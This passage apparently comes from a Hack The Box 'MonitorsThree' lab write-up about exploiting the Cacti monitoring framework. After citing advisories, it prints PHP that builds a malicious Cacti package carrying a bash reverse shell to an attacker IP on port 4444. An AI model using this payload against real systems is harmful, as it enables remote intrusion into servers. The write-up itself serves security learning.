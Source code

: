 ![cacti-logged-in](../assets/img/posts/htb-monitorsthree/cacti-logged-in.png)

Google search reveals known vulnerabilities and a PoC:
[cacti-release](https://github.com/Cacti/cacti/releases/tag/release%2F1.2.26)
[cacti-vulnerability-article](https://thehackernews.com/2024/05/critical-flaws-in-cacti-framework-could.html)
[PoC](https://github.com/cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88)

Here is the php to create our malicious payload that will trigger our reverse shell to connect back to our attacking machine:
```php
<?php
$xmldata = "<xml>
   <files>
       <file>
           <name>resource/test.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";
$filedata = "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.235/4444 0>&1'\"); ?>";
// Rest of exploit code...
?>
```
